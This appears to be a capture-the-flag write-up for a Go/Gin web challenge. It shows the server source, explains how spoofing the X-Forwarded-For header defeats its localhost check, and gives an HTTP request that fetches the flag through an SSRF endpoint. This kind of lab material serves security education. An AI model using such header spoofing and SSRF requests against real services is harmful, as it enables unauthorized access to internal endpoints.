

# Baby Simple Go CURL

Source: Cookie Arena

Tools: Burpsuite

Technique: SSRF

Fields: Web

- main.go
    
    ```go
    package main
    
    // khai báo thư viện
    import (
    	"errors"
    	"fmt"
    	"io/ioutil"
    	"log"
    	"net/http"
    	"os"
    	"strings"
    
    	"github.com/gin-gonic/gin"
    )
    
    // Hàm này được dùng để kiểm tra nếu có nhiều hơn 1 redirect hoặc nếu địa chỉ IP không phải là 127.0.0.1.
    func redirectChecker(req *http.Request, via []*http.Request) error {
    	reqIp := strings.Split(via[len(via)-1].Host, ":")[0]
    
    	if len(via) >= 2 || reqIp != "127.0.0.1" {
    		return errors.New("Something wrong")
    	}
    
    	return nil
    }
    
    func main() {
    	//đọc file flag.txt
    	flag, err := os.ReadFile("/flag.txt")
    	if err != nil {
    		panic(err)
    	}
    
    	//cấu hình server
    	r := gin.Default()
    
    	r.LoadHTMLGlob("view/*.html")
    	r.Static("/static", "./static")
    
    	//display index.html khi user truy cập vào /
    	r.GET("/", func(c *gin.Context) {
    		c.HTML(http.StatusOK, "index.html", gin.H{
    			"a": c.ClientIP(),
    		})
    	})
    
    	// Khi truy cập vào /curl/ ....
    	r.GET("/curl/", func(c *gin.Context) {
    		client := &http.Client{
    			CheckRedirect: func(req *http.Request, via []*http.Request) error {
    				return redirectChecker(req, via)
    			},
    		}
    
    		reqUrl := strings.ToLower(c.Query("url"))
    		reqHeaderKey := c.Query("header_key")
    		reqHeaderValue := c.Query("header_value")
    		reqIP := strings.Split(c.Request.RemoteAddr, ":")[0]
    		fmt.Println("[+] " + reqUrl + ", " + reqIP + ", " + reqHeaderKey + ", " + reqHeaderValue)
    
    		if c.ClientIP() != "127.0.0.1" && (strings.Contains(reqUrl, "flag") || strings.Contains(reqUrl, "curl") || strings.Contains(reqUrl, "%")) {
    			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
    			return
    		}
    
    		req, err := http.NewRequest("GET", reqUrl, nil)
    		if err != nil {
    			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
    			return
    		}
    
    		if reqHeaderKey != "" || reqHeaderValue != "" {
    			req.Header.Set(reqHeaderKey, reqHeaderValue)
    		}
    
    		resp, err := client.Do(req)
    		if err != nil {
    			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
    			return
    		}
    
    		defer resp.Body.Close()
    
    		bodyText, err := ioutil.ReadAll(resp.Body)
    		if err != nil {
    			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
    			return
    		}
    		statusText := resp.Status
    
    		c.JSON(http.StatusOK, gin.H{
    			"body":   string(bodyText),
    			"status": statusText,
    		})
    	})
    
    	//Khi truy cập vào /flag/ --> kiểm tra nếu địa chỉ IP của client là 127.0.0.1 (localhost) thì sẽ trả về nội dung của file flag.txt.
    	r.GET("/flag/", func(c *gin.Context) {
    		reqIP := strings.Split(c.Request.RemoteAddr, ":")[0]
    
    		log.Println("[+] IP : " + reqIP)
    		if reqIP == "127.0.0.1" {
    			c.JSON(http.StatusOK, gin.H{
    				"message": flag,
    			})
    			return
    		}
    
    		c.JSON(http.StatusBadRequest, gin.H{
    			"message": "You are a Guest, This is only for Host",
    		})
    	})
    
    	r.Run("0.0.0.0:1337")
    }
    ```
    

> Idea:
The request made using the endpoint `/curl/` checks whether the requesting IP is `127.0.0.1`, the URL constains the words `flag` or `curl` (to prevent chains of requests), and disallow redirects by defining a `redirectChecker` function.

BUT!!! Look at this piece of code:
> 

```php
if c.ClientIP() != "127.0.0.1" && (strings.Contains(reqUrl, "flag") || strings.Contains(reqUrl, "curl") || strings.Contains(reqUrl, "%")) { // CANNOT HAVE flag, curl or %
    c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
    return
}
```

> The condition implies that if the client IP is `127.0.0.1` it is not necessary to check whether the URL contains one of the blocked words.

Let’s try to create a request that utilizes headers like ***X-Forwarded-For*** to deceive the server into thinking that the packet is from localhost.
> 

This is an example request that can retrieve the flag:

```php
GET /curl/?url=http://127.0.0.1:8080/flag/&header_key=&header_value= HTTP/1.1
Host: <server ip>:<server port>
X-Forwarded-For: 127.0.0.1
Connection: close
```

- Gửi nhận request nhận response nhận về sẽ trông như thế này:


